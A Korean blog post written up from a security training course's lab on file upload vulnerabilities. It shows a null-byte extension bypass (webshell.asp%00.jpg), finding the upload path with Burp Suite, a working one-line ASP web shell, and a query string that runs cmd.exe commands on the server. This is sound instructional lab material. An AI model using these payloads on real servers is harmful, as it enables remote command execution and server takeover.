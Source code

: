 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload & Download
categories: Web
tags: [Web, File, WebShell, Pentest]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 파일 업로드 취약점

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179345672-fd75b54b-6a64-44b2-835d-08fe72ede21d.png">
</p>

주로 게시판 등에서 파일 업로드 기능을 악용하여 시스템 권한을 획득할 수 있는 취약점을 의미한다.

공격자는 서버 사이드 스크립트(PHP, JSP, .NET 등)을 이용하여 웹쉘(WebShell)을 제작한다.

확장자에 대한 검증 없이 파일 업로드 기능을 제공할 때 해당 취약점이 발생하게 된다.

> 악성 스크립트가 업로드 된 후, 서버상에서 스크립트를 실행하여 쉘을 획득하는 등의 행위로 서버를 장악할 수 있다.

해당 웹 쉘의 해당 확장자는 다음과 같다.

언어  | 파일 확장자 |
:-----: | :----------:|
**PHP**       | **hp, php3, php4, php5, phtml, inc**    | 
**JSP** | **jsp, jsf**   | 
**ASP** | **Asp, asa, cds, cer 등**  |
**ASP.NET** | **aspx, asax, ascx, ashx, asmx, axd, config, cs, csproj, licx, rem, resources, resx, soap, vb, vbproj, vsdisco, webinfo 등**  |

## 실습. 파일 업로드 취약점

우선, 해당 웹 서버가 어떠한 언어를 기반으로 작동하는지 알아야 한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179345987-6195d56f-fe02-47c6-890f-e04a2e9d29d4.png" width = 380>
</p>

* 웹의 MAIN을 접근했을 때 MAIN을 구성하고 있는 웹의 확장자가 **ASP**인 것을 확인했다. 

게시판에 접속하여 **ASP**확장자를 가진 웹 쉘을 업로드 해본다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179346080-60038f8a-93b7-42cf-8069-2b674a2536c5.png" width = 380>
</p>

* 하지만 확장자 필터링으로 인해 업로드가 되지 않았다. 

### 확장자 필터링 우회

확장자 필터링으로 파일 업로드에 실패했다. 우회 기법으로 **Null을 이용한 파일 업로드**를 진행할 것이다.

Null을 파일명에 삽입하게 되면 웹에서는 Null 이후로는 없는 글자로 판단하기 때문에 이 처럼 응용이 가능하다.

```
webshell.asp >> webshell.asp%00.jpg 
```

시스템에서는 최종 확장자가 **.jpg** 이미지 파일로 확인하고, 웹에서는 **%00** 기준으로 없는 문자로 판별하기 때문에 최종적으로는 **asp** 확장자로 업로드가 되는 취약점이다.

### 웹 쉘 경로 찾기

이제 게시판에 잘 올라가 있는지 확인해본다.

잘 올라 갔다면 Burpsuite를 키고, 파일을 다운로드 할 때 어느 경로에서 어떤 파일명을 다운로드하는지 확인해본다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179348613-f8969d67-a18f-4369-9900-93ed0f7a97cd.png">
</p>

파일명은 **webshell.asp**, 경로는 **upload_file**인 것을 알 수 있다.

현재의 경로는 **/demoshop/shop_board/upload_file**인 것을 알 수 있다. 따라서 URL을 아래와 같이 이동해볼 것이다.

> 현재 다운로드하면서 실행된 파일이 `shop_download.asp`인데 해당 경로가 `/shop_board`이고, f_path가 `upload_file`인 것은 상대경로로 현재의 위치(`/demoshop/shop_board`)라는 것이다.

### 웹 쉘 실습

```
http://10.200.165.9/demoshop/shop_board/webshell.asp
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179348898-f75fc06e-99a3-4d18-a864-343ed0ec88a6.png">
</p>

* 웹 쉘이 적용이 된 것이다. 해당 명령어를 입력하면 서버측에서의 명령이 전달되어 모든 내역을 확인 할 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179349133-c94e4c0f-dc80-41f2-9e9b-8f319dd10058.png">
</p>

### 한 줄 웹 쉘

웹 쉘에 많은 기능을 넣기 위해 코드를 여러 작성하다 보면 용량이 커질 것이다. 그런 것을 대비하기 위해 게시판 파일 업로드 용량 제한이 생겼다.

또한, 해당 사이트에서 용량 제한이 없다고 해도 네트워크 상에서 큰 용량에 대한 차단 기능으로 업로드 실패 할 수도 있다.

그래서 등장한 것이 한 줄 웹 쉘(**일구화목마**라 불림)을 사용해볼 것이다.

ASP의 한줄 웹쉘 코드는 `<% eval request("cmd") %>` 이것이다.

위 코드를 ASP 확장자 필터링 우회해서 파일로 만들고, 업로드해서 위 방법처럼 접속하면 된다.

이렇게 하면 GET 방식으로 명령어를 전달하게 되므로, 피해자가 패킷 검사를 하게 되면 알아 차리기 쉽게 된다.

```
?cmd=response.write(Server.CreateObject("WSCRIPT.SHELL").exec("cmd.exe > /c [command]").stdout.readall)
```

위 명령어를 한 줄 웹 쉘 위치까지 URL로 접속하고 파라미터로 전달하면 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179349607-a234b976-f8e4-41e7-813b-72b067864e72.png
">
</p>

* 이렇게 파라미터로 전달된 명령 또한 출력이 되는 것을 알 수 있다.